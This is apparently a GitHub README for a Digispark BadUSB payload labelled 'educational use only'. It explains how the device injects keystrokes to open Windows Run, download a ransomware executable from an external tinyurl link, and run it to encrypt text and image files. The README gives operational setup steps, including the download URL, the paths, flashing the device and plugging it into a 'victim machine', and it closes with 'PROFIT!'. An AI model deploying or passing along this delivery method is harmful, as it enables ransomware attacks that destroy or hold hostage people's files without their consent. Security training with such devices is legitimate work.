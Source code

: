 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Ransomware
For more details, see our [documentations](/documentation/conops_ransomware.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the ransomware executable, from user defined location.   
- Executes it, and the executable encrypts .txt, .jpg, .jpeg, .png files in the directory, it is downloaded to.

Check out more detailed usage of the [Ransomware in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware)

## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `DownloadFile('URL_WHERE_TO_DOWNLOAD'`    
	**NOTE: As is (`https://tinyurl.com/28sb6pvc`), it downloads it from [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Python%20app)**   
	
	- Path, where to download and what to execute (both must be the same):
		- `$env:UserProfile/TestDirz338/malware.exe\\\`
	- Working Dir:
		- `-WorkingDir \\\"$env:UserProfile/TestDirz338\\\`
- Please note, that we don't recommend blindly using our tinyurl. Make your own URL and .exe to be safe!
- Upload to Digispark
- Make a directory named `TestDirz338` in the `\Users\<Current User>`-directory of the target machine. The directory name IS case sensitive and the directory needs to be in the correct directory for the ransomware to work. Or adjust the code to suit your test environment.
- Plug the Digispark in to the target machine
- **PROFIT!**

---
**Note:**  
Folder:
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_ransomware/old)
    - Older draft to initially getting the ransomware with Digispark to work
